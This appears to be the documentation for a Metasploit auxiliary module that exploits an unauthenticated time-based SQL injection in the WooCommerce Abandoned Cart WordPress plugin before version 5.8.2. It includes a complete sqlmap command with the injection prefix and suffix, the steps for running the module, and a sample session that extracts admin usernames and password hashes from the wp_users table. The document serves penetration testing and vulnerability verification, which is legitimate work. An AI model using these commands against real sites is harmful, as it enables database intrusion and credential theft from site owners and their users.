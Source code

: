 ## Vulnerable Application

Abandoned Cart, a plugin for WordPress which extends the WooCommerce plugin,
prior to 5.8.2 is affected by an unauthenticated SQL injection via the
billing_first_name parameter of the save_data AJAX call.  A valid
wp_woocommerce_session cookie is required, which has at least one item in the
cart.

The plugin can be downloaded from
[here](https://downloads.wordpress.org/plugin/woocommerce-abandoned-cart.5.8.1.zip)

You'll need to first install WooCommerce and set up a shop with at least one item.
Next, install and activate Abandoned Cart.

This module slightly replicates sqlmap running as:

```
sqlmap -u http://local.target/wp-admin/admin-ajax.php --cookie='[cookies content here]' --method='POST' --data='billing_first_name=wpdeeply&billing_last_name=wpdeeply&billing_company=wpdeeply&billing_address_1=wpdeeply&billing_address_2=wpdeeply&billing_city=wpdeeply&billing_state=wpdeeply&billing_postcode=123234&billing_country=GB&billing_phone=12324&billing_email=wpdeeply%40protonmail.com&order_notes=&wcal_guest_capture_nonce=[nonce-value]&action=save_data' -p billing_first_name --prefix="', '', '','', '',( TRUE " --suffix=")) -- wpdeeply" --dbms mysql --technique=T --time-sec=1
```

## Verification Steps

1. Install the plugin on wordpress
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_abandoned_cart_sqli`
1. Do: `set rhosts [ip]`
1. Do: `set cookie [cookie]`
1. Do: `run`
1. You should get username and password hashes.

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COOKIE

A valid `wp_woocommerce_session` cookie, which has at least 1 item in the cart.  An example is:
`wp_woocommerce_session_d2959e58288b6133e71de74309fcabfb=257056469b604b6a005c25ea293c83f9%7C%7C1609808347%7C%7C1609804747%7C%7C499137359f4d8c16f125fba6cf58ff57`.

### COUNT

If Action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### Wordpress 5.4.2 with WooCommerce 4.8.0 and Abandoned Cart 5.8.1 on Ubuntu 20.04 using MariaDB 10.3.22

```
resource (abandoned.rb)> use auxiliary/scanner/http/wp_abandoned_cart_sqli
resource (abandoned.rb)> set rhosts 111.111.1.111
rhosts => 111.111.1.111
resource (abandoned.rb)> set verbose true
verbose => true
resource (abandoned.rb)> set cookie "wp_woocommerce_session_d2959e58288b6133e71de74309fcabfb=257056469b604b6a005c25ea293c83f9%7C%7C1609808347%7C%7C1609804747%7C%7C499137359f4d8c16f125fba6cf58ff57"
cookie => wp_woocommerce_session_d2959e58288b6133e71de74309fcabfb=257056469b604b6a005c25ea293c83f9%7C%7C1609808347%7C%7C1609804747%7C%7C499137359f4d8c16f125fba6cf58ff57
resource (abandoned.rb)> set count 3
count => 3
resource (abandoned.rb)> run
[*] Checking /wp-content/plugins/woocommerce-abandoned-cart/readme.txt
[*] Found version You in the plugin
[+] Vulnerable version of Abandoned Cart for WooCommerce detected
[*] Nonce: b56eb3a2cb
[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(PghfuFZ) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) PghfuFZ from wp_users limit 3) eOMLbNMh)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_abandoned_cart_sqli) > creds
Credentials
===========

host  origin         service  public  private                             realm  private_type        JtR Format
----  ------         -------  ------  -------                             -----  ------------        ----------
      111.111.1.111           admin2  $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1         Nonreplayable hash  phpass
      111.111.1.111           editor  $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/         Nonreplayable hash  phpass
      111.111.1.111           admin   $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0         Nonreplayable hash  phpass
```
